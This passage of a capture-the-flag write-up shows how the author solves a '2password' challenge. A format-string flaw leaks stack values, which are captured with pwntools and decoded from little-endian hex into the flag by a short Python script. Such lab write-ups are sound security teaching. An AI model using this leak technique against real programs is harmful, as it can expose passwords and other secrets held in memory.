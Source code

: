 <br/><br/>
Next, I enter dummy values for password1 and password2 and process the program's stdout until the program eventually tries to print the "username", but actually prints the next 10 values from the stack. We capture that output as "output" via the recvline() command. I have included an example print of the output below, though there is no need to print it in the final solve script since we capture it in "output".
```python
p.recvuntil(b"Enter password1: ")
p.sendline("no")
p.recvuntil(b"Enter password2: ")
p.sendline("u")

output = p.recvline()
```
Output:

![output](/media/2password_dump.png)
<br/><br/>

It took me a little bit of playing around with this output to find a way to get the flag, though I was overcomplicating it. I tried interpreting these printed values as pointers to other parts of the stack via the %s, but the answer was pretty simple -- in fact, the flag has already been printed! Looking at one of the values:
```
0x68747b667463616c
```
I noticed that the last octet, "6c" corresponds to the UTF-8 value for the character "l". Interpreting the rest of the string as UTF-8 gives the following result:
```bash
$ echo "0x68747b667463616c" | xxd -p -r                                                           
> ht{ftcal%
```
Well, reversed, that looks like the first 8 characters of the flag, "lactf{th"!

<br/><br/>

So, let's continue with the solve script. We'll split the output string on '-', trim the '0x' prefix, and interpret each value as little-endian and convert it to from hex to UTF-8

```python
arr = output.split('-')
for value in arr:
  result = value
  if result.startswith('0x'):  # Trim the prefix if this looks like a hex value
    result = value[2:]
  else:                        # if it is not a hex value, ignore it (things like (nil))
    continue
  if len(result) %2 != 0:      # ignore values that don't have an even number of characters
    continue

  byte_pairs = []
  for i in range(0, len(result), 2): # group each octet
    byte_pairs.append(result[i:i+2])

  byte_pairs.reverse()         # Reverse the octets for readability
  result = "".join(chr(int(pair, 16)) for pair in byte_pairs) # Convert each octet from a hex value to UTF-8

  print(result, end="") # print each result with no newline so that the flag is immediately readable
print() # print newline
```